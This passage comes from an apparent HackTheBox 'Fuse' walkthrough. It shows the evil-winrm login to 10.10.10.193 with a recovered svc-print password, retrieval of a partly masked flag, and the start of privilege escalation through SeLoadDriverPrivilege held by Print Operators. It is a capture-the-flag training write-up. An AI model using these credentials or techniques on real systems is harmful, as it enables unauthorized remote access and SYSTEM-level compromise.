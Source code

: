 ### WinRM Shell

We can get a WinRM shell using [**Evil-WinRM**](https://github.com/Hackplayers/evil-winrm) with `svc-print:$fab@s3Rv1ce$1` :

```shell
cfx:  ~/Documents/htb/fuse
→ evil-winrm -i 10.10.10.193 -u svc-print -p '$fab@s3Rv1ce$1'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami
fabricorp\svc-print
```
#### user.txt

```shell
*Evil-WinRM* PS C:\Users\svc-print\Desktop> get-content user.txt
dc9ab9df5c97cdd*****************

```
## Elevating Priv: svc-print -> Administrator

Going through the privileges, we can see `SeLoadDriverPrivilege` is enabled, which is quite interesting:

```shell
*Evil-WinRM* PS C:\Users\svc-print\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
It appears `SeLoadDriverPrivilege` is enabled because the user `svc-print` is a member of `Print Operators` and is quite dangerous as it allows user to load kernel drivers leading to code execution with SYSTEM privileges.

```shell
*Evil-WinRM* PS C:\Users\svc-print\Desktop> net user svc-print
User name                    svc-print
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/30/2020 4:27:08 PM
Password expires             Never
Password changeable          5/31/2020 4:27:08 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
```